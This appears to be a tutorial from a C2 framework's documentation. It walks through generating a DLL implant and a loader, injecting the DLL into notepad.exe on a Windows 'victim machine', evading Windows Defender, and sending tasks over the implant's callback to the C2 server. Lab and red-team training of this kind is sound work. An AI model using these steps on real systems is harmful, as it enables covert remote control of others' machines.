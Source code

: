 # Simple DLL Injection

In this tutorial, we generate **DLL Implant** and **Loader** which loads the DLL into memory on Windows victim machine. Then make the C2 agent to communicate with our C2 server. 

Assume that you've completed [the Simple Implant Beacon tutorial](./simple-implant-beacon.md).  

> IMPORTANT: It's heavily recommended to use **a virtual machine** for Windows victim machine because If we modify the registry etc., the system might not work properly. Also we recommend temporarily turning off real-time protection of **Windows Defender** as it is likely to be detected by Windows Defender.

## 1. Start C2 Server

In the Hermit project root, start the C2 server:

```sh
./hermit
```

## 2. Start HTTPS Listener

Once the C2 server started, we also need to start HTTPS listener:

```sh title="Hermit C2 Server Console"
Hermit > listener new
```

After starting, the listener folder is generated at `$HOME/.hermit/server/listeners/https-<name>`.

## 3. Generate DLL Implant

At first, generate an implant DLL with `payload gen` command.

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_dll.png)

In the settings wizard, choose the following options at least:

- What to generate? -> `implant/beacon`
- OS/Arch/Format    -> `windows/amd64/dll`

### Custom Domain Setting (Optional)

If we choose the domain for the listener URL such as `https://example.evil:12345` instead of the ip address such as `https://172.12.34.56:12345`, we need to add the domain to the `C:\Windows\System32\drivers\etc\hosts` on the Windows victim machine for connecting back to our C2 server.

### Check Generated Payload

After that, we can see the generated payload with the `listener payloads <LISTENER-ID>` command:

![listener payloads](../assets/images/terminal/listener_payloads.png)

This command lists all payloads hosted on the listener.  
We can freely delete arbitrary payload by selecting a payload on this menu (of course, we shouldn't delete it now).  

This payload is stored under `$HOME/.hermit/server/listeners/https-<name>/payloads/`. The DLL loader that we will create later will find this DLL file in this directory and load it automatically, so don't move this payload.

## 4. Generate DLL Loader

Next, generate a DLL loader that loads the DLL implant and inject it on specific process.  
Run `payload gen` command again:

![payload gen](../assets/images/terminal/payload_gen_loader_dll_win_amd64_exe.png)

In the option wizard, choose the following options at least:

- What to generate?         -> `loader/dll`
- OS/Arch/Format            -> `windows/amd64/exe`
- Listener URL              -> (Same URL as when generating the DLL)
- Technique                 -> `dll-injection`
- Target Process to Inject  -> `notepad.exe`

This stager is also generated under `$HOME/.hermit/server/listeners/https-<name>/payloads/`. 

### Transfer the Loader

**Now we need to transfer the generetad loader to Windows victim machine.**

## 5. Execute Loader

In Windows victime machine, at first, start `notepad.exe` as target process to inject our DLL into:

```ps title="Windows Victim Machine"
PS C:\Users\victim\Desktop> notepad
```

That's because we've specified `notepad.exe` (by default) as target process in the previous **Generate DLL Loader** section.  
By doing so, our loader can inject the DLL into the `notepad` process.

Finally we can execute the loader as below:

```ps title="Windows Victim Machine"
# Replace the filename with our own.
PS C:\Users\victim\Desktop> .\loader.exe
```

## 6. Switch to Agent Mode

After a few seconds (10~30 seconds by default), we can see that the agent connected to our C2 server with `agents` command:

![agents](../assets/images/terminal/agent_list.png)

To enter the agent mode, run `agent use` command on C2 server console:

![agent use](../assets/images/terminal/agent_use.png)

## 7. Send Tasks

In agent mode, we can send tasks and see results. Try `ps ls` task:  

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > ps ls
```

This task prints all running processes on victim machine. 

After a few seconds, run the `task results` or `loot show` command to see the result:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > task results
Hermit [agent-abcd] > loot show
```

If we cannot see the result yet, please repeat executing `loot show` command until the result will be shown.  

Looking at the task result, we can see that our DLL implant is running on the `Notepad.exe` process as below:

![loot ps](../assets/images/terminal/loot_show_ps.png)

That's because the loader injected the DLL into the `notepad.exe` process.

## 8. Stop Implant & Quit Agent Mode

After playing the agent, stop the implant with the `kill` command or close the `Notepad`.
Then run `exit` command to quit the agent mode.

